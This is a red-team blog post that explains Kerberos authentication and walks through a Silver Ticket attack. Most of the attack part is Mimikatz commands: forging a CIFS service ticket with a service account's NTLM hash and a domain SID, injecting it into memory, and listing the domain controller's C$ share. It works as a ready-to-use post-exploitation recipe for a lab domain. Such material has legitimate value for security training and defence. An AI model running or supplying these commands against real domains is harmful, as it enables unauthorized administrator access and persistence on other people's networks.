 ```yaml
---
title:  "Kerberos attacks 3-Silver Ticket "
classes: wide
header:
  teaser: /img/redteampng.png
ribbon: red
description: "Kerberos attacks 1-Silver Ticket"
categories:
  - Red-Teaming
toc: true
---
```


## Goal
Forge service ticket

## Silver Ticket
* Technique to maintain persistence in an already compromised domain
* A Silver Ticket is a forged Kerberos Ticket Granting Service (TGS) ticket
* A silver ticket attack involves compromising credentials and abusing the design of the Kerberos protocol. 
* A silver ticket only allows an attacker for forge ticket-granting service (TGS) tickets for specific services.
* TGS tickets are encrypted with the password hash for the service – therefore, if an adversary steals the hash for a service account they can mint TGS tickets for that service.
* A attacker can create a Silver Ticket by cracking a computer account password and using that to create a fake authentication ticket. Kerberos allows services to log in without double-checking that their token is actually valid, which attackers have exploited to create Silver Tickets.


## Kerberos Authentication Flow
  * 1-Password converted to NTLM hash, a timestamp is encrypted with the hash and sent to the KDC as an authenticator in the authentication ticket (TGT) request
  * 2-KDC checks user information and creates TGT
  * 3-The TGT is encrypted, delivered to the user. Only the KRBTGT in the domain can open and read TGT data.
  * 4-The User presents the TGT to the DC when requesting a TGS ticket ,The DC opens the TGT & validates PAC checksum 
       --> If the DC can open the ticket & the checksum check out, TGT = valid. The data in the TGT is effectively copied to create the TGS ticket.
  * 5-The TGS is encrypted using the target service accounts’ NTLM password hash and sent to the user 
  * 6.The user connects to the server hosting the service & presents the TGS,The service opens the TGS ticket using its NTLM password hash.


## Silver Ticket Attacks Work 
Silver Ticket Attacks are post-exploitation attacks. That means that a threat actor must already have compromised a target system in the environment before they can generate a Kerberos Silver Ticket.

  * 1-gather information about the domain, such as the domain name and domain security identifier (SID)
  * 2-Obtain the DNS name under which the service principal name (SPN) for the targeted
  * 3-Use Mimikatz to obtain the local NTLM password (or password hash) for the Kerberos service running on the compromised system
  * 4-Use Mimikatz to forge a Kerberos TGS


## Argument
```
kerberos::golden     ##Name of the module (there is no Silver module) 
/User:Administrator  ##Username for which the TGT is generated 
/domain :karim.net   ## Domain Name 
/sid:S-1-5-21-750046758-1551849808-2392872301 ## SID of the domain 
/target : win10.karim.net ## Target machine
/service: cifs  The SPN name of service for which TGS is to be created 
/rc4:6f5b5acaf7433b3282ac22e21e62ff22  ## NTLM  hash of the service account.
/id:500 /groups:512    ## Optional User RID (default 500) and Group (default 513 512 520 518 519) 
/ptt    ##Injects the ticket in current PowerShell process, no  to save the ticket on disk 
/startoffset:0  (Optional)the start offset when the ticket is available (default 0)
/endin:600 ##Optional ticket lifetime (default is 10 years) . The default AD setting is 10 hours = 600 minutes
/renewmax:10080 ##Optional ticket lifetime with renewal (default is 10 years) in minutes. The default AD setting is 7 days = 100800 
                
 ```
 

 ## group identifier
```
512 ##Domain Admins
513 ##Domain Users
518 ##Schema Admins
519 ##Enterprise Admins
520 ##Group Policy Creator Owners
```

Getting a user's SID
```
whoami /user
```
<img src="/img/silver/sid.PNG" alt="Getting-gz" width="800" height="150"> 

## Create the silver ticket
```
kerberos::golden /user:Administrator /domain:karim.net /rc4:de26cce0356891a4a020e7c4957afc72 /target:domainAD.karim.com /sid:S-1-5-21-750046758-1551849808-2392872301 /service:CIFS /id:500 /ptt
```

<img src="/img/silver/go.PNG" alt="Getting-gz" width="1000" height="200"> 

 
List current tickets
```
klist
```

<img src="/img/silver/klist.PNG" alt="Getting-gz" width="1000" height="200">


save in file
``` 
kerberos::golden /user:Administrator /domain:karim.net /rc4:de26cce0356891a4a020e7c4957afc72 /target:domainAD.karim.com /sid:S-1-5-21-750046758-1551849808-2392872301 /service:CIFS /id:500 
```

<img src="/img/silver/f1.PNG" alt="Getting-gz" width="1000" height="200"> 

Inject in memory using mimikatz 
```
kerberos::ptt  ticket.kirbi
```
  
<img src="/img/silver/f2.PNG" alt="Getting-gz" width="800" height="150"> 

## Access domain controller
```
dir \\domainAD.karim.net\c$
```
<img src="/img/silver/da.PNG" alt="Getting-gz" width="1000" height="200"> 
